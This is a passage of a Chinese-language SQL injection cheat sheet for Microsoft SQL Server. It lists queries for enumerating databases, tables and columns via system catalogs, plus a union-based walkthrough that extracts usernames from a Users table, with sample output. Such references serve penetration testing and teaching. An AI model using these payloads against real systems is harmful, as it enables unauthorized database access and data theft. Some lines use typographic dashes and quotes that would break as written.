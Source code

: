 ```sql
SELECT name FROM master..sysdatabases;
SELECT DB_NAME(N); — 对于 N = 0, 1, 2, …
SELECT STRING_AGG(name, ', ') FROM master..sysdatabases; -- 更改分隔符值，例如 ', ' 为您想要的任何值 => master, tempdb, model, msdb   (仅在 MSSQL 2017+ 中有效)
```

## MSSQL 列出列

```sql
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = ‘mytable’); — 仅针对当前数据库
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — 列出 master..sometable 的列名和类型

SELECT table_catalog, column_name FROM information_schema.columns
```

## MSSQL 列出表

```sql
SELECT name FROM master..sysobjects WHERE xtype = ‘U’; — 使用 xtype = ‘V’ 查看视图
SELECT name FROM someotherdb..sysobjects WHERE xtype = ‘U’;
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — 列出 master..sometable 的列名和类型

SELECT table_catalog, table_name FROM information_schema.columns
SELECT STRING_AGG(name, ', ') FROM master..sysobjects WHERE xtype = 'U'; -- 更改分隔符值，例如 ', ' 为您想要的任何值 => trace_xe_action_map, trace_xe_event_map, spt_fallback_db, spt_fallback_dev, spt_fallback_usg, spt_monitor, MSreplication_options  (仅在 MSSQL 2017+ 中有效)
```

## 基于联合的 MSSQL

```sql
-- 提取数据库名称
$ SELECT name FROM master..sysdatabases
[*] 注入
[*] msdb
[*] tempdb

-- 从注入数据库中提取表
$ SELECT name FROM Injection..sysobjects WHERE xtype = 'U'
[*] Profiles
[*] Roles
[*] Users

-- 提取 Users 表的列
$ SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'Users')
[*] UserId
[*] UserName

-- 最后提取数据
$ SELECT  UserId, UserName from Users
```
